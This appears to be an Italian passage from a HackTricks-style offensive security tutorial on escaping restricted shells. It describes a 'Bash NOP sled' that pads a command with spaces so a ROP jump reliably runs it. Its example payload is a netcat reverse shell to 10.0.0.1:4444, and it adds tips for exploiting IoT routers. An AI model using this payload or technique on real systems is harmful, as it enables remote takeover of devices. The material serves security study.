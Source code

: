 
Se ti trovi all'interno di un filesystem con le **protezioni read-only e noexec** o anche in un container distroless, ci sono ancora modi per **eseguire binari arbitrari, anche una shell!:**

{{#ref}}
bypass-fs-protections-read-only-no-exec-distroless/
{{#endref}}

## Bypass di Chroot e altre Jails

{{#ref}}
../privilege-escalation/escaping-from-limited-bash.md
{{#endref}}

## Bash NOP Sled Basato su Spazio ("Bashsledding")

Quando una vulnerabilità ti consente di controllare parzialmente un argomento che alla fine raggiunge `system()` o un'altra shell, potresti non conoscere l'offset esatto in cui l'esecuzione inizia a leggere il tuo payload. I tradizionali NOP sled (ad es. `\x90`) **non** funzionano nella sintassi della shell, ma Bash ignorerà in modo innocuo gli spazi bianchi iniziali prima di eseguire un comando.

Pertanto, puoi creare un *NOP sled per Bash* prefissando il tuo comando reale con una lunga sequenza di spazi o caratteri di tabulazione:
```bash
# Payload sprayed into an environment variable / NVRAM entry
"                nc -e /bin/sh 10.0.0.1 4444"
# 16× spaces ───┘ ↑ real command
```
Se una catena ROP (o qualsiasi primitiva di corruzione della memoria) posiziona il puntatore delle istruzioni in qualsiasi punto all'interno del blocco di spazio, il parser di Bash salta semplicemente gli spazi bianchi fino a raggiungere `nc`, eseguendo il tuo comando in modo affidabile.

Casi d'uso pratici:

1. **Blob di configurazione mappati in memoria** (ad es. NVRAM) che sono accessibili tra i processi.
2. Situazioni in cui l'attaccante non può scrivere byte NULL per allineare il payload.
3. Dispositivi embedded dove è disponibile solo BusyBox `ash`/`sh` – ignorano anche gli spazi iniziali.

> 🛠️  Combina questo trucco con gadget ROP che chiamano `system()` per aumentare drasticamente l'affidabilità dell'exploit su router IoT con memoria limitata.

## Riferimenti e altro

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#exploits](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#exploits)
- [https://github.com/Bo0oM/WAF-bypass-Cheat-Sheet](https://github.com/Bo0oM/WAF-bypass-Cheat-Sheet)
- [https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0)
- [https://www.secjuice.com/web-application-firewall-waf-evasion/](https://www.secju)

- [Exploiting zero days in abandoned hardware – Trail of Bits blog](https://blog.trailofbits.com/2025/07/25/exploiting-zero-days-in-abandoned-hardware/)

{{#include ../../banners/hacktricks-training.md}}
